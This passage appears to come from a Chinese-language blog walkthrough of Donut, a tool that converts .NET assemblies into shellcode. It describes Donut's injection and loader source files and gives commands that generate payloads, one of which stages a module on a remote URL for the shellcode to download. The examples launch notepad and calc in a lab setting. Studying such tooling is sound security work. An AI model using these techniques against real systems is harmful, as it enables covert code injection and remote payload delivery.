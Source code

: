 #### 5.https://github.com/TheWover/donut/blob/master/payload/inject.c

使用RtlCreateUserThread向指定进程注入shellcode

可用作测试向指定进程注入shellcode的功能

#### 6.https://github.com/TheWover/donut/blob/master/payload/runsc.c

C/S架构，两个功能，可以发送和接收shellcode并执行

用于测试payload.bin的功能

#### 7.https://github.com/TheWover/donut/blob/master/encrypt.c

对称加密的实现

#### 8.https://github.com/TheWover/donut/blob/master/hash.c

API Hashing，这里使用了Maru hash

#### 9.https://github.com/TheWover/donut/blob/master/donut.c

主程序，用于将.NET程序集转换成shellcode

## 0x04 实际测试
---

### 1、选择测试dll

这里使用子项目DemoCreateProcess

编译后生成文件ClassLibrary.dll

### 2、使用Donut生成shellcode

64位：

```
donut.exe -a 2 -f ClassLibrary.dll -c TestClass -m RunProcess -p notepad.exe,calc.exe
```

32位：

```
donut.exe -a 1 -f ClassLibrary.dll -c TestClass -m RunProcess -p notepad.exe,calc.exe
```

命令执行后生成文件payload.bin

如果加了-u指定URL，会再生成一个随机名称的Module文件，实例如下：

```
donut.exe -a 2 -f ClassLibrary.dll -c TestClass -m RunProcess -p notepad.exe,calc.exe -u http://192.168.1.1
```
